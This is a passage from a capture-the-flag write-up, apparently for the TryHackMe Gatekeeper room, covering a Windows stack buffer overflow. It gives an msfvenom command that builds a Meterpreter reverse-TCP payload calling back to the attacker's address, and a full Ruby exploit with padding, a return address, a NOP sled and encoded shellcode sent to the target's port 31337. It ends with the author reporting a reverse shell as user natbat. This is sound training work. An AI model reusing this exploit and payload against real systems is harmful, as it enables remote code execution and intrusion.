 Now, we have a working template in both Python and Ruby, we can choose either one of them. I am using the final Ruby template for the actual show. However, first we need to create a new payload by using the IP address on THM:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6000 -f rb -a x86 --platform windows -b "\x00\x0A"
```
Couple of things to note here. LHOST has my IP when I connect to THM via openvpn, you can find that out by running:
```bash
ifconfig
```
And look for ```tun0``` device. You also notice that I am using a different port for LPORT on my machine. I just wanted to use a different port than 5555. Now, we need to copy and paste the encoded payload into our Ruby template:

![Final Shellcode Payload](finalExplRuby.png)
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\x9d\x8a\xad\x59\xda\xc5\xd9\x74\x24\xf4\x5d\x33\xc9" +
"\xb1\x56\x83\xc5\x04\x31\x5d\x0f\x03\x5d\x92\x68\x58\xa5" +
"\x44\xee\xa3\x56\x94\x8f\x2a\xb3\xa5\x8f\x49\xb7\x95\x3f" +
"\x19\x95\x19\xcb\x4f\x0e\xaa\xb9\x47\x21\x1b\x77\xbe\x0c" +
"\x9c\x24\x82\x0f\x1e\x37\xd7\xef\x1f\xf8\x2a\xf1\x58\xe5" +
"\xc7\xa3\x31\x61\x75\x54\x36\x3f\x46\xdf\x04\xd1\xce\x3c" +
"\xdc\xd0\xff\x92\x57\x8b\xdf\x15\xb4\xa7\x69\x0e\xd9\x82" +
"\x20\xa5\x29\x78\xb3\x6f\x60\x81\x18\x4e\x4d\x70\x60\x96" +
"\x69\x6b\x17\xee\x8a\x16\x20\x35\xf1\xcc\xa5\xae\x51\x86" +
"\x1e\x0b\x60\x4b\xf8\xd8\x6e\x20\x8e\x87\x72\xb7\x43\xbc" +
"\x8e\x3c\x62\x13\x07\x06\x41\xb7\x4c\xdc\xe8\xee\x28\xb3" +
"\x15\xf0\x93\x6c\xb0\x7a\x39\x78\xc9\x20\x55\x4d\xe0\xda" +                                                                                                            
"\xa5\xd9\x73\xa8\x97\x46\x28\x26\x9b\x0f\xf6\xb1\xaa\x18" +                                                                                                            
"\x09\x6d\x14\x48\xf7\x8e\x64\x40\x3c\xda\x34\xfa\x95\x63" +                                                                                                            
"\xdf\xfa\x1a\xb6\x75\xf1\x8c\x33\x80\x52\xda\x2c\x90\x5c" +                                                                                                            
"\xf3\xdc\x1d\xba\xab\x4c\x4d\x13\x0c\x3d\x2d\xc3\xe4\x57" +                                                                                                            
"\xa2\x3c\x14\x58\x69\x55\xbf\xb7\xc7\x0d\x28\x21\x42\xc5" +                                                                                                            
"\xc9\xae\x59\xa3\xca\x25\x6b\x53\x84\xcd\x1e\x47\xf1\xa9" +                                                                                                            
"\xe0\x97\x02\x5c\xe0\xfd\x06\xf6\xb7\x69\x05\x2f\xff\x35" +                                                                                                            
"\xf6\x1a\x7c\x31\x08\xdb\xb4\x49\x3f\x49\xf8\x25\x40\x9d" +                                                                                                            
"\xf8\xb5\x16\xf7\xf8\xdd\xce\xa3\xab\xf8\x10\x7e\xd8\x50" +                                                                                                            
"\x85\x81\x88\x05\x0e\xea\x36\x73\x78\xb5\xc9\x56\xfa\xb2" +                                                                                                            
"\x35\x24\xd5\x1a\x5d\xd6\x65\x9b\x9d\xbc\x65\xcb\xf5\x4b" +                                                                                                            
"\x49\xe4\x35\xb3\x40\xad\x5d\x3e\x05\x1f\xfc\x3f\x0c\xc1" +                                                                                                            
"\xa0\x40\xa3\xda\x53\x3a\xcc\xdd\x94\xbb\xc4\xb9\x95\xbb" +                                                                                                            
"\xe8\xbf\xaa\x6d\xd1\xb5\xed\xad\x66\xc5\x58\x93\xcf\x4c" +                                                                                                            
"\xa2\x87\x10\x45"

RHOST = "10.10.64.5"
RPORT = 31337


require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running our Ruby script, let's start msfconsole and set up our handler with the payload and run it in the background:

![Msf Payload](msfconsole.png)

Now, it is time to fire away our Ruby script ```ruby shellcode.rb```

![Final Reverseshell](finalReverseshell2.png)

Nice, we are now in the machine as natbat user. Next, we'll look for some information...

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
